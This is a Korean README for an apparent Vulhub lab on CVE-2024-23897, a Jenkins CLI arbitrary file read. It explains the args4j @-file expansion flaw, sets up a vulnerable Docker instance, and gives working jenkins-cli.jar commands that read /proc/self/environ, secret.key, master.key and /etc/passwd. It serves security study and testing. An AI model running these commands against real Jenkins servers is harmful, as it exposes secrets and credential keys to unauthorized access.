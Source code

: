 # CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.


참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 http://your-ip:8080/을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는`admin`과 `vulhub`.


## 취약점 공격(익스플로잇)

먼저 http://localhost:8080/jnlpJars/jenkins-cli.jar을 통해 명령줄 클라이언트 jenkins-cli.jar를 다운로드해야 합니다.

/proc/self/environ 파일을 읽어 Jenkins 기본 디렉터리인 JENKINS_HOME=/var/jenkins_home을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

(사진1)


이 명령을 사용하면 secrets.key 또는 master.key와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

(사진2)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

(사진3)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
